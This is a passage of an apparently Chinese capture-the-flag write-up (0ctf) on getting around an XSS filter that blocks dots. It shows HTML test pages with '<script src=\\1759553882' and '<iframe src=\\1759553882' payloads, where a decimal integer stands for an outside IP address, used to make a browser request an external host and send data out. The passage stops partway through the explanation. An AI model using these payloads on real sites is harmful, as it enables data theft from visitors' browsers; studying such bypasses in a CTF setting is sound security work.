 

测试了一波，发现

```html

<html>
<head>
    <meta charset="utf-8">
    <title>XSS Test Page</title>
</head>
<body>
<p>

            <script src=\\1759553882

</p>
</body>
```

确实可以往外发数据

![script](https://mo-xiaoxi.github.io/img/post/0ctf/script.png)

因为我们没有.号，所以也不能引用类似104.224.169.90/a.js这种界面

然后，就考虑index.html这种特性。我们引用一个104.224.169.90的页面，它会自动补全到达index.html(这种补全和服务器的相关设置相关，你们懂得)

那么，我们现在就能往外引用数据了！

但是，后来测试发现

```Js
<script src=\\2131121
```

这种格式的引用，浏览器只是做了一个get请求，但是因为没有右标签？？（具体原因没深入研究），它没有对里面的js进行解析执行。

然后，又测试了几个其他的标签，发现iframe真是一个神奇的标签。

我们可以通过

```html

<html>
<head>
    <meta charset="utf-8">
    <title>XSS Test Page</title>
</head>
<body>
<p>

            <iframe src=\\1759553882

</p>
</body>
```
